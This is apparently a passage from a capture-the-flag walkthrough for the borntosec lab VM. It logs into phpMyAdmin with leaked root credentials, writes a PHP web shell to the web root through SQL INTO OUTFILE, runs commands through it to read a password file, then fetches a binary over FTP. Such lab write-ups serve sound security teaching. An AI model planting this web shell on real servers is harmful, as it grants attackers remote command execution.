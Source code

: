 Go to : `https://[VM IP]/phpmyadmin`<br/>
Log in using root credentials : `root : Fg-'kKXBj87E:aJ$`<br/>
We can find a database called `forum_db`. We can find all users passwords under the `mlf2_userdata` table, but it won't help much.

What we can try, though, is to hack into the DB using an SQL injection inside the `forum_db` database. Since it's probably a LAMP server (so with Apache, information we can find while inspecting the network pannel on the forum), we could get direct access to the VM through a shell instance.

After surfing on the web for a while, we learn we can inject shell commands inside the db using a PHP script, like so : `SELECT "<?php system($_GET['cmd']); ?>" into outfile "[FOLDER WHERE THE SERVER IS STORED]/hello.php";`<br/>
Why that works : `system()` PHP function is used to launch shell commands. Here, we'll tell PHP to run any command which is stored in the `hello.php?cmd=something` query, from the URL.

Under LAMP, files from the website are usually stored under `/var/www/` or `/var/www/custom_routes` (which is probably the case here, like `/var/www/forum`).
Simply using the command won't work, we need to find a folder on which we have rights to store the script.

Using `dirb` again, we can find many routes/folders under the `/forum` one. We can inject the script in the following folder : `/forum/templates_c/`<br/>
Correct the SQL injection : `SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/hello.php";`

Bingo ! Now we can launch commands from the URL via the `hello.php` script like so : `https://[VM IP]/forum/templates_c/hello.php?cmd=command`

Let's dig : `https://[VM IP]/forum/templates_c/hello.php?cmd=ls%20%20/home` (all space characters are converted using URL encoding conventions, here ` ` is equal to `%20`, etc).<br/>
We find : `LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz`<br/>

Play around (LOOKATME is a folder), then look at the `password` inside the LOOKATME folder file using the `cat` command : `https://[VM IP]/forum/templates_c/hello.php?cmd=cat%20/home/LOOKATME/password`<br/>
We get a login:password couple : `lmezard:G!@M6f4Eatau{sF"`

We can use these credentials to log directly inside the VM.

Sources :<br/>
https://docs.joomla.org/Configuring_a_LAMPP_server_for_PHP_development/Linux_desktop<br/>
https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/<br/>
https://www.php.net/manual/en/function.system.php

# So much fun !

When logged as lmezard (using the previous login:password credentials), we have access to two files : `fun` and `README`.<br/>
The README says to complete the challenge in order to get ssh access as `laurie`.<br/>
The `fun` file is unreadable inside the VM, let's copy it inside our own environment using `ftp` (file transfer protocol). You can download it inside MacOS via homebrew : `brew install inetutils` (you now have access to the `ftp` command).

Download the `fun` file : `ftp [VM IP]` (then pursue as `lmezard`, use the password again), then inside the environment use `get fun` (exit using `bye`).
